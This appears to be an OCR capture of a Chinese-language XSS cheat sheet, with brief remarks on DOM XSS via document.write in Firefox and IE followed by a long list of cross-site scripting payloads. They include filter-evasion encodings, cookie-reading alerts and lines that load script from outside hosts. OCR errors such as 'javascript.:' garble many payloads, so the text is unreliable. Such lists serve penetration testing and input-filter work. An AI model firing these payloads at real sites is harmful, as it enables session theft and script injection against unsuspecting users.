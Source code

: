 - documen.write属性

默认火狐是不能执行这种dom xss 因为火狐会把url上面的字符串进行编码

在ie里面默认不编码 但是要关闭xss过滤器方可执行

## 测试XSS

```
<script>alert('hello，gaga!');</script> //经典语句，哈哈！
>"'><img src="javascript.:alert('XSS')">
>"'><script>alert('XSS')</script>
<table background='javascript.:alert(([code])'></table>
<object type=text/html data='javascript.:alert(([code]);'></object>
"+alert('XSS')+"
'><script>alert(document.cookie)</script>
='><script>alert(document.cookie)</script>
<script>alert(document.cookie)</script>
<script>alert(vulnerable)</script>
<s&#99;ript>alert('XSS')</script>
<img src="javas&#99;ript:alert('XSS')">
%0a%0a<script>alert(\"Vulnerable\")</script>.jsp
%3c/a%3e%3cscript%3ealert(%22xss%22)%3c/script%3e
%3c/title%3e%3cscript%3ealert(%22xss%22)%3c/script%3e
%3cscript%3ealert(%22xss%22)%3c/script%3e/index.html
<script>alert('Vulnerable')</script> 
a.jsp/<script>alert('Vulnerable')</script>
"><script>alert('Vulnerable')</script>
<IMG SRC="javascript.:alert('XSS');">
<IMG src="/javascript.:alert"('XSS')>
<IMG src="/JaVaScRiPt.:alert"('XSS')>
<IMG src="/JaVaScRiPt.:alert"(&quot;XSS&quot;)>
<IMG SRC="jav&#x09;ascript.:alert('XSS');">
<IMG SRC="jav&#x0A;ascript.:alert('XSS');">
<IMG SRC="jav&#x0D;ascript.:alert('XSS');">
"<IMG src="/java"\0script.:alert(\"XSS\")>";'>out
<IMG SRC=" javascript.:alert('XSS');">
<SCRIPT>a=/XSS/alert(a.source)</SCRIPT>
<BODY BACKGROUND="javascript.:alert('XSS')">
<BODY ONLOAD=alert('XSS')>
<IMG DYNSRC="javascript.:alert('XSS')">
<IMG LOWSRC="javascript.:alert('XSS')">
<BGSOUND SRC="javascript.:alert('XSS');">
<br size="&{alert('XSS')}">
<LAYER SRC="http://xss.ha.ckers.org/a.js"></layer>
<LINK REL="stylesheet"HREF="javascript.:alert('XSS');">
<IMG SRC='vbscript.:msgbox("XSS")'>
<META. HTTP-EQUIV="refresh"CONTENT="0;url=javascript.:alert('XSS');">
<IFRAME. src="/javascript.:alert"('XSS')></IFRAME>
<FRAMESET><FRAME. src="/javascript.:alert"('XSS')></FRAME></FRAMESET>
<TABLE BACKGROUND="javascript.:alert('XSS')">
<DIV STYLE="background-image: url(javascript.:alert('XSS'))">
<DIV STYLE="behaviour: url('http://www.how-to-hack.org/exploit.html&#39;);">
<DIV STYLE="width: expression(alert('XSS'));">
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
<IMG STYLE='xss:expre\ssion(alert("XSS"))'>
<STYLE. TYPE="text/javascript">alert('XSS');</STYLE>
<STYLE. TYPE="text/css">.XSS{background-image:url("javascript.:alert('XSS')");}</STYLE><A CLASS=XSS></A>
<STYLE. type="text/css">BODY{background:url("javascript.:alert('XSS')")}</STYLE>
<BASE HREF="javascript.:alert('XSS');//">
getURL("javascript.:alert('XSS')")
a="get";b="URL";c="javascript.:";d="alert('XSS');";eval(a+b+c+d);
<XML SRC="javascript.:alert('XSS');">
```
